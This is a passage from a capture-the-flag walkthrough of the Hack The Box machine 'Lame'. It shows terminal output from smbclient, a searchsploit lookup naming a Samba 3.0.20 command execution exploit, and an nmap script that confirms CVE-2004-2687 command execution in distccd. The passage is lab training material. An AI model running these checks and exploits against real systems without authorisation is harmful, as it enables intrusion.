 Access to folder `tmp` using `smbclient` but the server disconnect this session.

```
┌──(Hades㉿10.10.14.5)-[0.9:13.9]~
└─$ smbclient //10.10.10.3/tmp
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Search public exploit for `Samba 3.0.20`, there are exploit execute command at Username in Samba Server.

```
┌──(Hades㉿10.10.14.5)-[0.7:13.5]~/walkthrough/hackthebox/lame
└─$ searchsploit Samba 3.0.20
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
<snip>
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Ex | unix/remote/16320.rb
<snip>
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### distccd v1 ((GNU) 4.2.4

Follow [3632 - Pentesting distcc](https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc), Go to check if it's vulnerable to CVE-2004-2687 to execute arbitrary code

```
┌──(Hades㉿10.10.14.5)-[0.7:13.9]~
└─$ sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687
<snip>
PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
<snip>
```

## Foothold

### vsftpd-2.3.4-exploit
